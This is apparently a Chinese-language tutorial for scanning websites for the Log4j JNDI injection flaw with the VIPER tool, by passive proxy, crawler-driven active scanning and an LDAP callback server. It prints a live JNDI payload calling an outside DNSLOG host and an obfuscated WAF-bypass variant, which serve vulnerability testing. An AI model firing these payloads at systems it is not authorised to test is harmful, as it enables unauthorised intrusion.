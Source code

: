 # 使用VIPER扫描Log4j漏洞(主动扫描/被动扫描)

# 功能特性

## 被动扫描

+ 自动替换GET请求参数为Payload
+ 自动替换POST请求参数为Payload
+ 自动替换POST请求JSON中值为Payload
+ 自动替换跳过密码字段
+ 自动在headers中添加Payload(依据字典轮询)
+ Payload包含原始Payload与绕过WAF的Payload
+ 支持DNSLOG与LDAPServer两种回连模式(LDAPServer更适用于内网自查)

```plain
${jndi:ldap://ed3bf69b5e9611ec.xxx.ceye.io/hi}

${${c:Xy:-j}${Kp:W:q:-n}${dzD:-d}${UQt:-i}${GT:-:}${s:hzr:e:-l}${e:ZSJ:yd:-d}${fA:kBl:c:-a}${Hbn:q:-p}${f:Uu:-:}${HOB:-/}${Ijk:E:-/}${dfG:-e}${F:dSj:JE:-d}${Z:-3}${BOI:Yrf:-b}${Yt:S:-f}${DKB:-6}}${Z:-b}${xdB:XBZ:-5}${dW:-e}${uC:-6}${OC:KVJ:j:-1}${L:o:-1}${jhr:-e}${d:-c}${Gi:nUE:AX:-.}${vuo:hy:Srz:-9}${xv:-f}${KG:-p}${xm:-p}${My:aQw:-b}${Mz:Xr:-j}${Z:wWt:-.}${Kx:D:-c}${Y:-e}${j:-y}${xOm:-e}${Cn:-.}${N:Tx:de:-i}${hT:h:P:-o}${qi:yx:i:-/}${j:-h}${Qfp:-i}}
```

+ Payload中包含UUID,可根据DNSLOG记录查找具体触发漏洞的请求内容

## 主动扫描

+ 通过chrome headless + 爬虫的方式获取自动获取页面所有请求,将请求导入到被动proxy中,实现自动化扫描
+ 命令

```plain
.\crawlergo.exe -c ./chrome.exe -t 3 --push-to-proxy http://viperip:28888 http://target.com
```

# 使用教程

## 被动扫描

+ 更新VIPER版本到`v1.5.10`
+ 启动VIPER

![1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864.webp](./img/c0meLUd67I2xejnp/1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864-063191.webp)

+ 将浏览器代理设置为viperip:28888

![1639677135625-073dee2c-691f-4e16-a326-531b7c26f2b4.webp](./img/c0meLUd67I2xejnp/1639677135625-073dee2c-691f-4e16-a326-531b7c26f2b4-008901.webp)

+ 开启`被动扫描`中Log4j2模块

![1640007481033-26813815-236e-4a14-8892-29b203e9a03e.webp](./img/c0meLUd67I2xejnp/1640007481033-26813815-236e-4a14-8892-29b203e9a03e-373377.webp)

![1640007561651-b321d10c-9883-4930-8559-54fb0af2eba7.webp](./img/c0meLUd67I2xejnp/1640007561651-b321d10c-9883-4930-8559-54fb0af2eba7-726991.webp)

![1640007582128-92a6241c-f2b8-4c45-bc3c-dadc02a9ec4b.webp](./img/c0meLUd67I2xejnp/1640007582128-92a6241c-f2b8-4c45-bc3c-dadc02a9ec4b-088978.webp)

+ 通过浏览器打开目标网站,随意点击,输入信息等

![1639677273615-41f05455-b87e-491c-b993-3b934acfa646.webp](./img/c0meLUd67I2xejnp/1639677273615-41f05455-b87e-491c-b993-3b934acfa646-144672.webp)![1639677289481-de3c8d9f-814d-46eb-889d-46847f552404.webp](./img/c0meLUd67I2xejnp/1639677289481-de3c8d9f-814d-46eb-889d-46847f552404-170675.webp)

![1639677305436-4c12539d-2dfa-451a-a0de-25919c84f0db.webp](./img/c0meLUd67I2xejnp/1639677305436-4c12539d-2dfa-451a-a0de-25919c84f0db-024025.webp)

+ VIPER后台会自动替换输入的值为Payload
+ 登录DNSlog平台,观察是否有记录

![1639677403210-eebfb09a-ffa9-4af6-99cc-51d8fcd5df22.webp](./img/c0meLUd67I2xejnp/1639677403210-eebfb09a-ffa9-4af6-99cc-51d8fcd5df22-007917.webp)

+ 拷贝红框中的uuid信息,在主页面查询

![1639677446002-dd4334ea-9374-4120-bd2a-840130a7c148.webp](./img/c0meLUd67I2xejnp/1639677446002-dd4334ea-9374-4120-bd2a-840130a7c148-776102.webp)

![1639677468915-79dd91a6-bee1-4a2d-a4c5-4be05425a5dc.webp](./img/c0meLUd67I2xejnp/1639677468915-79dd91a6-bee1-4a2d-a4c5-4be05425a5dc-909468.webp)

+ 查询结果中包含可以触发漏洞的具体请求

![1639677504286-6361196e-c781-4c0c-8d22-fe65cca95741.webp](./img/c0meLUd67I2xejnp/1639677504286-6361196e-c781-4c0c-8d22-fe65cca95741-420030.webp)

## 主动扫描

+ 更新VIPER版本到`v1.5.10`
+ 启动VIPER

![1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864.webp](./img/c0meLUd67I2xejnp/1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864-063191.webp)

+ 开启`被动扫描`中Log4j2模块

![1640007481033-26813815-236e-4a14-8892-29b203e9a03e.webp](./img/c0meLUd67I2xejnp/1640007481033-26813815-236e-4a14-8892-29b203e9a03e-373377.webp)

![1640007561651-b321d10c-9883-4930-8559-54fb0af2eba7.webp](./img/c0meLUd67I2xejnp/1640007561651-b321d10c-9883-4930-8559-54fb0af2eba7-726991.webp)

![1640007582128-92a6241c-f2b8-4c45-bc3c-dadc02a9ec4b.webp](./img/c0meLUd67I2xejnp/1640007582128-92a6241c-f2b8-4c45-bc3c-dadc02a9ec4b-088978.webp)

+ 这里假设准备测试的网站为[http://target.com](http://target.com)
+ 安装crawlergo  [https://github.com/Qianlitp/crawlergo](https://github.com/Qianlitp/crawlergo)
+ 启动爬虫,并将流量发送到VIPER的代理中

```plain
.\crawlergo.exe -c ./chrome.exe -t 3 --push-to-proxy http://viperip:28888 http://target.com
```

+ 等待爬虫结束
+ 登录DNSlog平台,观察是否有记录

![1639677909294-5a0ce514-7fc1-4eba-a06c-ba1e70453d57.webp](./img/c0meLUd67I2xejnp/1639677909294-5a0ce514-7fc1-4eba-a06c-ba1e70453d57-465890.webp)

+ 拷贝红框中的uuid信息,在主页面查询

![1639677446002-dd4334ea-9374-4120-bd2a-840130a7c148.webp](./img/c0meLUd67I2xejnp/1639677446002-dd4334ea-9374-4120-bd2a-840130a7c148-776102.webp)

![1639677960256-d7832c7d-ba45-49b0-9e7c-f3f15c4bc928.webp](./img/c0meLUd67I2xejnp/1639677960256-d7832c7d-ba45-49b0-9e7c-f3f15c4bc928-469705.webp)

+ 查询结果中包含可以触发漏洞的具体请求(<font style="color:#E8323C;">该请求为Crawlergo自动发送</font>)

![1639677996654-e07b5fc3-83ab-4cc4-9e06-5873ffe08e4d.webp](./img/c0meLUd67I2xejnp/1639677996654-e07b5fc3-83ab-4cc4-9e06-5873ffe08e4d-756568.webp)

## 使用LDAPServer回连

+ 更新VIPER版本到`v1.5.10`
+ 启动VIPER

![1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864.webp](./img/c0meLUd67I2xejnp/1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864-063191.webp)

+ 将浏览器代理设置为viperip:28888

![1639677135625-073dee2c-691f-4e16-a326-531b7c26f2b4.webp](./img/c0meLUd67I2xejnp/1639677135625-073dee2c-691f-4e16-a326-531b7c26f2b4-008901.webp)

+ 开启`被动扫描`中Log4j2模块

![1640007481033-26813815-236e-4a14-8892-29b203e9a03e.webp](./img/c0meLUd67I2xejnp/1640007481033-26813815-236e-4a14-8892-29b203e9a03e-373377.webp)

+ 这里配置DNSLOG为`VPSIP:1387`

![1640008354670-f9ac3585-bd61-4118-89b4-cadf5c83f5bd.webp](./img/c0meLUd67I2xejnp/1640008354670-f9ac3585-bd61-4118-89b4-cadf5c83f5bd-453844.webp)

+ 执行如下命令,开启VIPER内置的LDAPServer

```plain
docker exec -it viper-c bash
python3 /root/viper/STATICFILES/Tools/ldapserver.py -p 1387
```

![1640008517473-73cc7623-a384-4a90-8717-f060f2508a8e.webp](./img/c0meLUd67I2xejnp/1640008517473-73cc7623-a384-4a90-8717-f060f2508a8e-858707.webp)

+ 通过浏览器打开目标网站,随意点击,输入信息等

![1639677273615-41f05455-b87e-491c-b993-3b934acfa646.webp](./img/c0meLUd67I2xejnp/1639677273615-41f05455-b87e-491c-b993-3b934acfa646-144672.webp)![1639677289481-de3c8d9f-814d-46eb-889d-46847f552404.webp](./img/c0meLUd67I2xejnp/1639677289481-de3c8d9f-814d-46eb-889d-46847f552404-170675.webp)

![1639677305436-4c12539d-2dfa-451a-a0de-25919c84f0db.webp](./img/c0meLUd67I2xejnp/1639677305436-4c12539d-2dfa-451a-a0de-25919c84f0db-024025.webp)

+ VIPER后台会自动替换输入的值为Payload
+ LDAPServer会收到回连请求,并打印请求UUID

![1640008583769-e8764e31-f65d-4a1a-915b-ea98e0e5329f.webp](./img/c0meLUd67I2xejnp/1640008583769-e8764e31-f65d-4a1a-915b-ea98e0e5329f-293139.webp)

+ 拷贝红框中的uuid信息,在主页面查询

![1639677446002-dd4334ea-9374-4120-bd2a-840130a7c148.webp](./img/c0meLUd67I2xejnp/1639677446002-dd4334ea-9374-4120-bd2a-840130a7c148-776102.webp)

![1639677468915-79dd91a6-bee1-4a2d-a4c5-4be05425a5dc.webp](./img/c0meLUd67I2xejnp/1639677468915-79dd91a6-bee1-4a2d-a4c5-4be05425a5dc-909468.webp)

+ 查询结果中包含可以触发漏洞的具体请求

![1639677504286-6361196e-c781-4c0c-8d22-fe65cca95741.webp](./img/c0meLUd67I2xejnp/1639677504286-6361196e-c781-4c0c-8d22-fe65cca95741-420030.webp)

##  

## 测试HTTPS网站

+ 更新VIPER版本到`v1.5.10`
+ 启动VIPER

![1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864.webp](./img/c0meLUd67I2xejnp/1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864-063191.webp)

+ 将浏览器代理设置为viperip:28888

![1639677135625-073dee2c-691f-4e16-a326-531b7c26f2b4.webp](./img/c0meLUd67I2xejnp/1639677135625-073dee2c-691f-4e16-a326-531b7c26f2b4-008901.webp)

+ 浏览器打开[http://mitm.it/](http://mitm.it/)

![1639696317934-338d50cf-82c6-49fb-84b4-4d0baf6528b5.webp](./img/c0meLUd67I2xejnp/1639696317934-338d50cf-82c6-49fb-84b4-4d0baf6528b5-374355.webp)

+ 下载对应平台的证书,并安装(以windows为例)

![1639696364644-f1f5e3fd-c8c5-4323-87b4-d0677180b9d8.webp](./img/c0meLUd67I2xejnp/1639696364644-f1f5e3fd-c8c5-4323-87b4-d0677180b9d8-202132.webp)

![1639696384299-3f0cc650-37a0-477f-86a8-e5a9f8340303.webp](./img/c0meLUd67I2xejnp/1639696384299-3f0cc650-37a0-477f-86a8-e5a9f8340303-311428.webp)

![1639696408673-45214402-b293-490b-9501-44b788e7c51c.webp](./img/c0meLUd67I2xejnp/1639696408673-45214402-b293-490b-9501-44b788e7c51c-622270.webp)

![1639696428593-9a01fe22-1175-443f-931a-fced91cff627.webp](./img/c0meLUd67I2xejnp/1639696428593-9a01fe22-1175-443f-931a-fced91cff627-087380.webp)

+ 不用填写信息

![1639696451109-d0ce0d93-e659-4063-ae60-83301e543a4f.webp](./img/c0meLUd67I2xejnp/1639696451109-d0ce0d93-e659-4063-ae60-83301e543a4f-708620.webp)

+ 这里要选择受信任的根证书

![1639696486793-5d40d1b7-b810-4990-a170-60c7feeaf3d5.webp](./img/c0meLUd67I2xejnp/1639696486793-5d40d1b7-b810-4990-a170-60c7feeaf3d5-170335.webp)

![1639696514496-7bf25cab-8b7b-41ef-98ea-ad7cacd45d8b.webp](./img/c0meLUd67I2xejnp/1639696514496-7bf25cab-8b7b-41ef-98ea-ad7cacd45d8b-218541.webp)

+ 请在测试结束后从系统配置中删除对应的证书



